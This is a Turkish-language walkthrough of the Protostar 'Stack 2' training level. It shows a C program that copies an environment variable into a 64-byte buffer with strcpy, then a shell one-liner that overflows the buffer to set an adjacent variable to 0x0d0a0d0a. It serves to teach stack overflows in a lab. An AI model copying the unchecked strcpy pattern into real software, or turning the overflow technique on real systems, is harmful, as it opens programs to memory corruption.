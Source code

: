 ## Stack 2

Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
Burada işler biraz daha farklılaşıyor. Yine modified ve buffer var ancak char pointer tipinde bir variable gelmiş. Bu varible içerisine `GREENIE` isimli ortam değişkenini (bkz. [environment variables](https://en.wikipedia.org/wiki/Environment_variable)) alıp ardından bu veriyi buffer içerisine kopyalıyor. Burada dikkat edilmesi gereken nokta ise bunu `strcpy` ile yapması, bu fonksiyonun man sayfasına bakarsak şöyle bir ibare yer alıyor.
```
BUGS
If  the  destination  string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.  Any time a program reads or copies data into a buffer, the program first needs to check that there's enough space.  This may  be  unnecessary if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make the impossible possible.
```
Yani diyo ki bu adam kopyalanacak yerin boyutunu kontrol etmeden kopyalıyor, bu sebepten ötürü yazmaması gerekn yere bir şeyler yazıp ortalığı karıştırabilir stackde devamına yazmaya başlar. Bizim de burada amacımız bu :)

Öncelikle `GREENIE` ortam değişkenine inputumuzu yazalım. 64 tane 'A' ile bufferi doldurup ardından `0x0d0a0d0a` değerini ekleyerek istenen değeri modified'a yazacağız.
```bash
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")

user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```
Burada `$()` şeklinde bir kullanım ile içerisinde çalıştırdığımız kodu output olarak alıp export ile ortam değişkenine atadık.(bkz.[Nedir bu $()](https://stackoverflow.com/questions/27472540/difference-between-and-in-bash/27472808))
Başarılı bir şekilde bu aşamayı da tamamlamış olduk.
